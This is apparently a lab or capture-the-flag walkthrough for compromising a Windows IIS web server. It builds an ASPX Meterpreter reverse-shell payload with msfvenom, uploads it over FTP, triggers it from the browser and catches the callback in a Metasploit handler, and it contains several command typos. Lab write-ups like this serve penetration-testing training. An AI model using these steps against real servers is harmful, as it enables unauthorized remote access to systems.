






As we can upload files, we will create an ASPX file to compromise a website hosted on Windows and return a ReverseShell:  (we will use revshells.com, MSFVenom section).

With this, we will create a payload. Once we upload the file, we will execute it on the website, but first we will have a netcat session listening so that our payload returns a reverse shell.

First of all we need to know our IP.
```bash
$ ip a
```




Now we create a payload .aspx
```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=9001 -f aspx -o reverse.aspx 
```


Now we upload our “reverse.apx” file throw our ftp session.



Now we open a listener on Metasploit. A Metasploit listener is required when using a Meterpreter payload because Meterpreter is not a simple command shell but a staged payload that communicates using a proprietary Metasploit protocol. When the target executes the payload, it first connects back with a small stager that expects the Metasploit handler to deliver the remaining stage and manage the session. Tools like netcat can only handle raw stdin/stdout connections and cannot understand or complete this staged negotiation, which is why Meterpreter payloads must be handled by Metasploit.
```bash
$ mfsconsole
$ use exploit/multi/handler
$ set payload windows/meterpreter/reverse_tcp  (This is mandatory because we have a windows machine)
$ set LHOST 10.10.14.15
$ set LPORT 9001
$ run
```


No we go to our browser and we will execute our reverse.sapx
```bash
http://10.10.10.5/reverse.aspx
```
We have obtained our Meterpreter session.



By default, the working directory is c:\windows\system32\inetsrv, where the IIS user does not have write permissions. For this reason, it is advisable to move to c:\windows\TEMP, since many of Metasploit's Windows privilege escalation module require writing a file to the target system during exploitation.


[Back](README.md)
